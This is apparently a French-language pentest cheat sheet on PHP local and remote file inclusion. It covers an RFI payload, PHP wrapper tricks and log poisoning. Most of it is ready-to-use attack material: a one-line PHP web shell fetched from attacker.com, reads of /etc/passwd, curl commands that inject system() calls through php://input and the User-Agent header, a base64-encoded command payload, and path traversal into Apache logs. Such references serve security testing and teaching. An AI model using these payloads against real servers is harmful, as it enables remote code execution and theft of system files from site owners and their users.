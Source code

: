 ### Création de payload RFI
```php
<?php
// shell.txt sur le serveur attaquant
system($_GET['c']);
?>

// Usage après inclusion
?file=http://attacker.com/shell.txt&c=whoami
?file=http://attacker.com/shell.txt&c=cat /etc/passwd
```

## 🔧 Wrappers PHP

### php://filter
```bash
# Lecture en base64
?file=php://filter/read=convert.base64-encode/resource=index.php

# Lecture avec rot13
?file=php://filter/read=string.rot13/resource=index.php

# Chaîne de filtres
?file=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
```

### php://input
```bash
# Avec POST data
curl -X POST --data "<?php system('whoami'); ?>" "http://target.com/page.php?file=php://input"

# Avec session upload
?file=php://input
POST: <?php system($_GET['cmd']); ?>
```

### data://
```bash
# Exécution directe
?file=data://text/plain,<?php system('whoami'); ?>

# Avec base64
?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTsgPz4K
```

## 🧪 Log Poisoning

### Apache/Nginx logs
```bash
# 1. Trouver le log accessible
?file=../../../var/log/apache2/access.log

# 2. Empoisonner via User-Agent
curl -A "<?php system(\$_GET['cmd']); ?>" http://target.com/

# 3. Exploiter
?file=../../../var/log/apache2/access.log&cmd=whoami
```
